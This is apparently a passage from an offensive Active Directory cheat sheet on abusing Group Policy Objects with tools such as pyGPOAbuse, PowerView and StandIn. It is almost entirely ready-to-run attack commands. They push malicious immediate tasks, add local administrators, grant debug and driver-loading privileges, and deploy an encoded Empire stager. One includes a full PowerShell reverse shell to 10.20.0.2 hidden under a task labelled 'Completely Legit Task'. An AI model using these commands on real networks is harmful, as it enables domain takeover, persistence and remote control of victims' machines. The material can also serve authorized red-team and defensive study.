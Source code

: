 ```ps1
# Create an immediate task 
PS> Add-GPOImmediateTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments "'$(Get-Content evil.ps1)'" -Author Administrator -Scope Computer/User -GPOIdentity 'SuperSecureGPO'
```

#### Abuse GPO with pyGPOAbuse

```powershell
$ git clone https://github.com/Hackndo/pyGPOAbuse

# Add john user to local administrators group (Password: H4x00r123..)
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"

# Reverse shell example
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
    -powershell \ 
    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
    -taskname "Completely Legit Task" \
    -description "Dis is legit, pliz no delete" \ 
    -user
```

#### Abuse GPO with PowerView

```powershell
# Enumerate GPO
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}

# New-GPOImmediateTask to push an Empire stager out to machines via VulnGPO
New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments '-NoP -NonI -W Hidden -Enc AAAAAAA...' -Force
```

#### Abuse GPO with StandIn

```powershell
# Add a local administrator
StandIn.exe --gpo --filter Shards --localadmin user002

# Set custom right to a user
StandIn.exe --gpo --filter Shards --setuserrights user002 --grant "SeDebugPrivilege,SeLoadDriverPrivilege"

# Execute a custom command
StandIn.exe --gpo --filter Shards --tasktype computer --taskname Liber --author "REDHOOK\Administrator" --command "C:\I\do\the\thing.exe" --args "with args"
```

### Dumping AD Domain Credentials
